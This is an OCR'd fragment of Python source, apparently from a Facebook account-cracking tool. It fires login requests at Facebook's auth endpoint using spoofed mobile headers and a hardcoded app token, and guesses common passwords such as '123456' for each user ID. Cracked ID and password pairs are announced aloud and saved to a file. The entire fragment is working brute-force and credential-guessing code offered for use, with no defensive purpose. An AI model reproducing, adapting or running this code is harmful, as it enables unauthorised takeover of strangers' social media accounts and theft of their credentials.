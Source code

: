             'Host': 'graph.facebook.com', 
            'X-FB-Net-HNI': '25227',
            'X-FB-SIM-HNI': '29752',
            'X-FB-Connection-Type': 'MOBILE.LTE', 
            'X-Tigon-Is-Retry': 'False', 
            'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62', 
            'x-fb-device-group': '5120', 
            'X-FB-Friendly-Name': 'ViewerReactionsMutation', 
            'X-FB-Request-Analytics-Tags': 'graphservice', 
            'X-FB-HTTP-Engine': 'Liger', 
            'X-FB-Client-IP': 'True', 
            'X-FB-Server-Cluster': 'True', 
            'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62', 
            'Content-Length': '706'}
            url = "https://b-graph.facebook.com/auth/login"
            rp = requests.post(url,data=data,headers=head,allow_redirects=False,verify=True).json()
            if "session_key" in rp:            	
                print(f'\r\r\r\r\r\33[38;5;37m[\x1b[38;5;46mALi\033[1;97m-\x1b[38;5;46mOK\33[38;5;37m] \x1b[38;5;46m{uid} \033[1;97m● \x1b[38;5;46m{pw}\033[1;97m');os.system('espeak -a 300 " Cracked Ok id,"')
                open("/sdcard/Ali-M2-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                cps.append(uid)
                break
            elif "www.facebook.com" in rp['error']['message']:
                print(f'\r\r\r\r\r\33[38;5;37m[\x1b[38;5;46mAli\033[1;97m-\x1b[38;5;46mOK\33[38;5;37m] \x1b[38;5;46m{uid} \033[1;97m● \x1b[38;5;46m{pw}\033[1;97m');os.system('espeak -a 300 " Cracked Ok id,"')
                open("/sdcard/Ali-M2-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            else:continue
        loop+=1
    except Exception as e:time.sleep(30)
def login4(uid):
    global oks,loop,cps
    Session=requests.session()
    try:
        sys.stdout.write(f'\r\r\33[38;5;37m[\x1b[38;5;46mMEHEDI\33[38;5;37m-\x1b[38;5;46mS4\33[38;5;37m]\033[1;97m-\33[38;5;37m[\033[1;97m{loop}\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46mOK\33[38;5;160m/\x1b[38;5;208mCP\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46m{len(oks)}\33[38;5;160m/\x1b[38;5;208m{len(cps)}\33[38;5;37m]')
        sys.stdout.flush()
        ua = random.choice(ugen)
        ua = windows()
        for pw in ["123456","1234567","12345678","123456789","111222"]:
            data = {'adid':str(uuid.uuid4()),
            'format': 'json',
            'device_id':str(uuid.uuid4()),
            'cpl': 'true',
            'family_device_id':str(uuid.uuid4()),
            'credentials_type': 'device_based_login_password', 
            'error_detail_type': 'button_with_disabled', 
            'source': 'device_based_login', 
            'email':str(uid),
            'password':str(pw),
            'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32', 
            'generate_session_cookies': '1', 
            'meta_inf_fbmeta': '', 
            'advertiser_id':str(uuid.uuid4()),
            'currently_logged_in_userid': '0', 
            'locale': 'en_US',
            'client_country_code': 'US', 
            'method': 'auth.login', 
            'fb_api_req_friendly_name': 'authenticate', 
            'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler', 